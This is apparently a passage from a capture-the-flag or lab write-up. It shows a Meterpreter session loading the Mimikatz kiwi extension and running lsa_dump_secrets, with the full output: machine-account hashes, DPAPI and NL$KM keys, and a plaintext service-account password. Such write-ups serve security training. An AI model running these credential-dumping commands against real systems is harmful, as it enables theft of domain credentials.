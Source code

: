 To answer the question, I ran `use kiwi` to load kiwi module and `lsa_dump_secrets` to dump LSA secrets. `Kiwi` module used to perform various types of credential-oriented operations such as dumping passwords and hashes, dumping passwords in memory, generating golden tickets, and more.

```
meterpreter > use kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

[!] Loaded x86 Kiwi on an x64 architecture.

Success.
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : PROD-WEBSRV7765
SysKey : 14a513800f23074d06b371d5b4bfdb86

Local name : PROD-WEBSRV7765 ( S-1-5-21-1669853405-1314316162-1621276032 )
Domain name : MYCOMS ( S-1-5-21-2804598327-1020562986-2106375421 )
Domain FQDN : mycoms.com.local

Policy subsystem is : 1.12
LSA Key(s) : 1, default {623d7843-d8a7-c5a9-01fa-119217f4064e}
  [00] {623d7843-d8a7-c5a9-01fa-119217f4064e} b45240c17c8897e3d5270783f4cc737f278b68d474c51a505bc077bf2220b1df

Secret  : $MACHINE.ACC
cur/text: WI6$*\T[fZ%F!qqD%?^U]E"jn &Cne6fI2qCJp wz9<@K!wVZi;^3vnV>b(9g3l2#o@q%bEko62%n2`ogG2rwc6/@XNumW__4/b;j8j/k0o++/n ._/s9`^'
    NTLM:eddb95449e4807dedc0d2ecdbe361719
    SHA1:2e0566e564a5cb48646c1d3560022113efdc4df5
old/text: WI6$*\T[fZ%F!qqD%?^U]E"jn &Cne6fI2qCJp wz9<@K!wVZi;^3vnV>b(9g3l2#o@q%bEko62%n2`ogG2rwc6/@XNumW__4/b;j8j/k0o++/n ._/s9`^'
    NTLM:eddb95449e4807dedc0d2ecdbe361719
    SHA1:2e0566e564a5cb48646c1d3560022113efdc4df5

Secret  : DefaultPassword

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 d9 d2 0c 8c f2 c0 fe 37 7e 8a 5b f6 a9 38 49 99 8b a6 93 20 b2 9e c0 9d c6 41 5a a6 cc df 31 fd 9b ce 53 ba 1e 8c 31 71 
    full: d9d20c8cf2c0fe377e8a5bf6a93849998ba69320b29ec09dc6415aa6ccdf31fd9bce53ba1e8c3171
    m/u : d9d20c8cf2c0fe377e8a5bf6a93849998ba69320 / b29ec09dc6415aa6ccdf31fd9bce53ba1e8c3171
old/hex : 01 00 00 00 55 0b 07 be cc e6 4f 90 bb 45 62 4a 4a dc 7f 91 50 a8 90 cc dd dc d2 a3 ce 33 5a 29 49 3d 60 6f 25 a5 03 2e 42 39 b1 96 
    full: 550b07becce64f90bb45624a4adc7f9150a890ccdddcd2a3ce335a29493d606f25a5032e4239b196
    m/u : 550b07becce64f90bb45624a4adc7f9150a890cc / dddcd2a3ce335a29493d606f25a5032e4239b196

Secret  : NL$KM
cur/hex : 29 5b d7 f4 51 cb 5a 3f e2 9e bb cd 4f 8a 7c 36 d3 31 1e 24 9c 7e a4 da c6 b0 57 78 3e 4b e6 f3 b2 2d fd d8 83 b6 9e 9e f8 fc 13 d3 77 37 e4 7f 8b 6a 7c ad 41 2c 86 06 1c 0d ef 4d 0a c2 e1 59 

Secret  : _SC_SplunkForwarder / service 'SplunkForwarder' with username : mycoms\ali
cur/text: P@ssw0rd123!
```
